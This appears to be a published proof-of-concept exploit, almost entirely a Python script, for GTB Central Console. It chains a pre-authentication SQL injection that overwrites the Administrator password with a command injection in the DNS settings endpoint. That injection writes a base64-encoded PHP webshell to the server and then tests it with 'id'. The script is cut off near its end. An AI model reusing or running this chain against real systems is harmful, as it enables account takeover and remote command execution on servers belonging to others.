 This is a simple proof of concept that chains both vulnerabilities to create a webshell in the server.
```python
#!/usr/bin/env python3

# Exploit for GTB Central Console (tested on v15.17.1-30814.NG)
# Author: Juan Manuel Fernandez (@TheXC3LL)



import sys
import requests
import json


if __name__ == "__main__":
    target = sys.argv[1]
    pwd = "196989cdcb8bf751d0513388f30f4783" # xc3ll

    # Exploit Pre-auth SQLi
    print("[*] Exploiting the SQLi...")
    req = requests.get(target + "/ccapi.php?action=setTermsHash&userId=1&hash=pwned',passwd%3d'" + pwd, verify=False)
    if not "true" in req.text:
        print("[!] Error. Exploit failed!\n")
        exit(-1)
    print("[*] Password updated to 'xc3ll'!")

    # Attempt to login
    print("[*] Getting a valid session using the new credentials...")
    form = {
            "_username" : (None, "Administrator"),
            "_password" : (None, "xc3ll")
            }
    headers = {
            "X-Sess-Token" : "pwned"
            }
    req = requests.post(target + "/old/login", files=form, headers=headers, verify=False)
    if "error" in req.text:
        print("[!] Error. Could not authenticate with 'Administrator:xc3ll'")
        exit(-1)
    session = json.loads(req.text)["session"]
    print("[*] Authenticated! session is " + session)

    # Let's exploit the command injection
    print("[*] Exploiting the command injection...")
    payload = '{"dnsServerIps":"8.8.8.8","cc_name":"","host_name":"adeptsof0xcc; echo PD9waHAgc3lzdGVtKCRfR0VUWyJyY2UiXSk7Pz4K| base64 -d   > /opt/webapp/web/pwned.php"}'
    form = {
        "xaction" : (None, "update"),
        "data" : (None, payload)
    }
    headers = {
        "Cookie" : "symfony=" + session + "; session=" + session,
    }
    req = requests.post(target + "/old/react/v1/api/system/dns/data", files=form, headers=headers, verify=False)
    if not "true" in req.text:
        print("[!] Error. Exploit failed!\n")
        exit(-1)
    print("[*] Seems like the webshell was uploaded to " + target + "/pwned.php")
    print("[*] Testing with 'id'...")
    req = requests.get(target + "/pwned.php?rce=id", verify=False)
    if not "nginx" in req.text:
```